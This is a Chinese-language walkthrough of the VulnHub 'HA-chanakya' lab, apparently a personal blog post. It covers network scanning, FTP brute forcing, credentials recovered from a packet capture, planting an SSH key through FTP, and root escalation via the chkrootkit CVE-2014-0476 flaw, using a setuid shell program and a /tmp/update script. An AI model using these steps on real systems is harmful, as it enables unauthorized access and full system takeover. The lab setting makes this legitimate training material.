# 目标

get **flags**


---

# 1.信息收集
## 1.1 主机发现
```shell
nmap 192.168.64.0/24 -sn -n --max-rate 10000
```

靶机的IP地址是 `192.168.64.47`

## 1.2 端口扫描
**SYN扫描**
```shell
nmap 192.168.64.47 -sS -sV -Pn -n -p- --max-rate 10000
```


**TCP connection扫描**
```shell
nmap 192.168.64.47 -sT -sV -Pn -n -p- --max-rate 10000
```


**UDP扫描**
```shell
nmap 192.168.64.47 -sU -sV -Pn -n --top-ports 100 --max-rate 10000
```


**nmap默认脚本扫描**
```shell
nmap 192.168.64.47 -sV -sC -p 2,21,22,80 -O --max-rate 10000
```


**nmap漏洞脚本扫描**
```shell
nmap 192.168.64.47 -sV --script vuln -p 21,22,80 --max-rate 10000 -oA nmap-scan/vuln
```
很多信息。

## 1.3 21端口获取信息
```shell
nmap 192.168.64.47 -p 21 -sV -Pn -n --script ftp-anon.nse,ftp-syst.nse
```

不能进行匿名登陆。

## 1.4 22端口获取信息
```shell
nmap 192.168.64.47 -p 22 -sV -Pn -n --script ssh-auth-methods.nse,ssh-hostkey.nse
```


## 1.5 80端口获取信息
访问`http://192.168.64.47`，页面显示如下，

像是一个任务介绍网站，然后就是没啥东西了，扫描一下网站目录/文件，
```shell
gobuster dir --url=http://192.168.64.47 --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x zip,txt,php,html,jpg,jpeg,rar -db
```

可以扫描出来几个看着比较有意思的文件：`cha.zip`和`abuse.txt`, 尝试去获取并且查看一下这些文件。
```shell
# 下载cha.zip文件
wget http://192.168.64.47/cha.zip

# 解压查看
unzip cha.zip
```
感觉就是这个网站的内容文件，没什么信息。接着就去访问一下`http://192.168.64.47/abuse.txt`，显示了"nfubxn.cpncat"，不知道是啥东西，网站里面的一个文件？一个域名？库里面的某个函数？用户名与密码？用户？密码？
"abuse"的意思是滥用。
访问`http://192.168.64.47/nfubxn.cpncat`，没有这个文件。那就试一下域名，可能存在基于域名的虚拟IP。
配置`/etc/hosts`文件，
```txt
192.168.64.47 nfubxn.cpncat
```
看着好像是同一个网站，再扫描一下，
```shell
gobuster dir --url=http://nfubxn.cpncat --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x zip,txt,php,html,jpg,jpeg,rar -db
```
没什么有价值的文件发现。

上面的靶机介绍里面也给我们提示需要枚举，先尝试暴力破解ftp，
```shell
# 利用网站构造字典
cewl -d 4 -m 4 -w site.txt --with-numbers http://192.168.64.47
```
在site.txt文件，将*nfubxn.cpncat*, *nfubxn*, *cpncat*也加进去。
```shell
hydra -L site.txt -P site.txt ftp://192.168.64.47 -o brute.log
```
啥也没有。ssh太慢了，先不破解。感觉需要先搞明白"nfubxn.cpncat"这是什么，上面的猜测都错了，那有没有可能是加密后的玩意呢？这么短的话可以先试试凯撒。去网页`https://gchq.github.io/CyberChef/`

可以看到一个比较熟悉的后缀名文件`ashoka.pcapng`，这是一个wireshark里面的流量包文件。查看一下，
```shell
# 下载下来
wget http://192.168.64.47/ashoka.pcapng

# 查看一下
tshark -r ashoka.pcapng > ashoka.log
```
很多信息，翻找一番。好像都是一些UDP, TCP, FTP的流量，先过滤掉UDP，看着没啥用。`tshark -r ashoka.pcapng | grep -vE 'UDP' > ashoka.log`，现在只有60行了，仔细查看。
感觉找到关键的东西了，

有一个ftp的账号与密码，而且显示登陆成功了。
- user: `ashoka`
- pass: `kautilya`

---

# 2.建立系统立足点

然后就去登陆ftp,



这里似乎是用户ashoka的家目录，那如果我上传公钥，那我就可以免密登陆了。虽然我不确定系统里面是否有ashoka用户。

```
ftp > mkdir .ssh
ftp > cd .ssh
ftp > put authorized_keys
```

尝试登陆ssh,
```shell
ssh -p 22 ashoka@192.168.64.47
```

成功登陆。

---

# 3.系统提权

将pspy64上传进靶机，然后运行，

发现有一个程序似乎每隔一分钟就运行，

这直接指向了网络安全界一个非常著名的本地提权漏洞：CVE-2014-0476。

在 chkrootkit 的老版本（0.49 及以下版本）中，代码写得有瑕疵。当它去扫描系统的 /tmp 目录时，由于缺少必要的引号包裹，它会盲目地以 root 权限去执行 /tmp/update 这个文件（只要这个文件存在且具有可执行权限）。

编译下面的c语言代码，
```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main() {
    // 将当前的真实用户 ID 和组 ID 设置为 0 (root)
    setuid(0);
    setgid(0);
    
    // 执行系统 shell
    system("/bin/bash");
    
    return 0;
}
```
生成shell可执行二进制文件, 使用ftp上传.

当前版本就是0.49
```shell
echo '#!/bin/bash' > /tmp/update
echo 'chmod 4777 /home/ashoka/shell' >> /tmp/update
chmod 777 /tmp/update
```
等待一会，刷会抖音。




---
---

# 💻 硬件与软件平台
## 硬件
- Apple Macbook pro `M1-Pro` `32G` `512G`
- macOS `14.8.5`

## 软件
- UTM version `4.7.5`

**kali**:
- IP: `192.168.64.2`
- OS Realease: `debian 2025.4`
- CPU Arch: `Arm64`
- CPU Cores: `4`

**HA-chanakya**: 
- website: `https://www.vulnhub.com/entry/ha-chanakya,395/`
- IP: `192.168.64.47`
- CPU Arch: `x86_64`
- CPU Cores: `2`

---

> 水平有限，有不足、错误之处欢迎指出。🧐